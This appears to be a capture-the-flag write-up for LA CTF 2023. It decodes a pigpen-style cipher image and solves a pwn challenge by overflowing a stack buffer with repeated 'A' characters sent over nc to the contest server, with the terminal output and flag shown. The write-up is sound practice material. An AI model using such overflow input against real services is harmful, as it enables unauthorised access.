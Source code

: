 ```
EOMB MC VCAL 
EBU PAUNT 
CNAPPPJ FNI 
CNAPPPJ FNI 
CNAPPPJ DUGIP
```

By the challenge name and description `rolling`, we can assumed to flipped the image horizontally 180 degrees, and get perfect results then wrap it to make it lowercase

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/LACTF23/rolling-in-the-mud/cipher-flipped.png" width="500px">
</div>
<br>
  
```
LACTF ROLLING
AND ROLLING
AND ROLLING
UNTIL THE
PIGS GO HOME
```

<details><summary>FLAG</summary></details>

<br>

### gatekeep

<details><summary>Description</summary></details>

This one is the basic pwn challenges, we can analyze a given binary-elf file using the IDA Disassembler.

So it's just a buffer overflow checking to see if the input is the same as the program variables in the stacks. We just need to send as many `A` as possible then the program will overwrite the input, and we get the flags.

```bash {title="bash"}
$ nc lac.tf 31121
If I gaslight you enough, you won't be able to guess my password! :)
Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I swore that was the right password ...
Guess I couldn't gaslight you!
lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}
```

Or we can use these payload `python3 -c 'print("a"*50)' | {{nc}}` that was given by the official challenges archive repo

```bash {title="bash"}
$ nc lac.tf 31121
If I gaslight you enough, you won't be able to guess my password! :)
Password:
python3 -c 'print("a"*50)' | {{nc}}
I swore that was the right password ...
Guess I couldn't gaslight you!
lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}
```

<details><summary>FLAG</summary></details>